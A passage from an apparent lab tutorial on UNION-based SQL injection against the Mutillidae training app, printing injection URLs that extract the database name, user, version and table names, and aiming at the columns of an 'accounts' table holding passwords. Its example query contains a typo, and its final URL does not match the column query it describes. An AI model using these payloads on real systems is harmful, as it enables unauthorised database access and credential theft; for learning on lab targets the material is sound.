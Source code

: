 Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.176.150/mutillidae/index.php?page=user-info.php&username=sannkar2%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

OUTPUT :
![Alt text](img/20.png)
The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

http://192.168.176.150/mutillidae/index.php?page=user-info.php&username=sannkar%27%20union%20select%201,table_name,3,4,5%20from%20information_schema.tables%20where%20table_schema=database()%23&password=&user-info-php-submit-button=View+Account+Details
